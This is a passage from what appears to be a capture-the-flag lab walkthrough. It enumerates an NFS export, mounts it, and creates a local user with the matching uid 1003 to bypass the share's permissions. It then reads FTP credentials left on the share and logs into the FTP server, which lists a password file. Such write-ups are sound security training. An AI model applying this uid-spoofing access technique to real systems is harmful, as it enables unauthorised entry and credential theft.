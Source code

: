 ## NFS
Since there is an NFS I want to take a look at it.

```
showmount -e 10.10.148.158
Export list for 10.10.148.158:
/mnt/share *
```
So, there is a share I can mount in the following way

```
mkdir /tmp/nfsfiles
sudo mount -t nfs 10.10.148.158: /tmp/nfsfiles
```
A look at the file permissions tells me, that a user with uid 1003 created the share. 
Therefore, a user with the same uid on the local attack machine, where the share has been mounted, 
is needed to get permissions to open the directory.

```
ls -l nfsfiles/mnt/
total 4
drwx------ 2 1003 1003 4096 Aug  8 20:28 share
```
```
sudo useradd hijack -u 1003  -m -s /bin/bash
```
Now switch to the user and take a look at the inside of the share.
```
sudo su hijack

 ls -la nfsfiles/mnt/share/
total 12
drwx------ 2 hijack hijack 4096 Aug  8 20:28 .
drwxr-xr-x 3 root   root   4096 Aug  8 20:28 ..
-rwx------ 1 hijack hijack   46 Aug  8 20:28 for_employees.txt
```
```
cat nfsfiles/mnt/share/for_employees.txt

ftp creds :

ftpuser:XXXXXXXXXXXXXXXXXXXXXXXX
```
```
ftp ftpuser@10.10.148.158
Connected to 10.10.148.158.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||41574|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 .
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 ..
-rwxr-xr-x    1 1002     1002          220 Aug 08 19:28 .bash_logout
-rwxr-xr-x    1 1002     1002         3771 Aug 08 19:28 .bashrc
-rw-r--r--    1 1002     1002          368 Aug 08 19:28 .from_admin.txt
-rw-r--r--    1 1002     1002         3150 Aug 08 19:28 .passwords_list.txt
-rwxr-xr-x    1 1002     1002          655 Aug 08 19:28 .profile
226 Directory send OK.
ftp>
```
